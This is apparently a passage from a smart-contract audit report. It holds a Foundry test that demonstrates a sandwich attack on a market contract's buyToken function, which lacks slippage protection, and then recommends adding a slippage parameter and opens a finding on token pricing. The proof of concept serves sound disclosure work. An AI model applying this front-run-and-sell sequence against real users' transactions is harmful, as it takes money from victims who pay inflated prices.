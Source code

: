 Sandwich Attack POC:

```solidity
function testBuyTokenSandwich() public {
    address attacker = makeAddr("attacker");
    address victim = makeAddr("victim");

    vm.deal(attacker, 100 ether);
    vm.deal(victim, 100 ether);

    vm.prank(attacker);
    token.approve(address(seriousMarket), type(uint256).max);

    // Track balance before the attack
    uint256 attackerBalanceBefore = attacker.balance;

    // The attacker frontruns the buyToken operation
    vm.prank(attacker);
    seriousMarket.buyToken{value: 10 ether}(address(token), 657_000_000 - 400_000_000, bytes8(0));

    // The victim's transaction is processed after the attacker one
    vm.prank(victim);
    seriousMarket.buyToken{value: 10 ether}(address(token), 400_000_000, bytes8(0));

    // The attacker completes the sandwich attack by executing a sellToken operation right after
    uint256 amount = token.balanceOf(attacker) / 1e18;
    vm.prank(attacker);
    seriousMarket.sellToken(address(token), amount, 0, 0, bytes8(0));

    // The took an unfair profit from a victim who paid more than expected for buying tokens
    uint256 attackerBalanceAfter = attacker.balance;
    assertGt(attackerBalanceAfter - attackerBalanceBefore, 3 ether);
}
```

**Recommendations**

Allow users to set a slippage parameter just like in `sellToken()`.

## Medium Risk
### [M-02] Latest tokens bought in the market are more expensive than in the pool

**Severity**

**Impact:** Low

**Likelihood:** High

**Description**

The price of the tokens bought in the market increases as the number of `tokensSold` approaches `tradeableSupply`. This means that the last tokens bought in the market are ~1% more expensive than the first tokens bought in the pool.
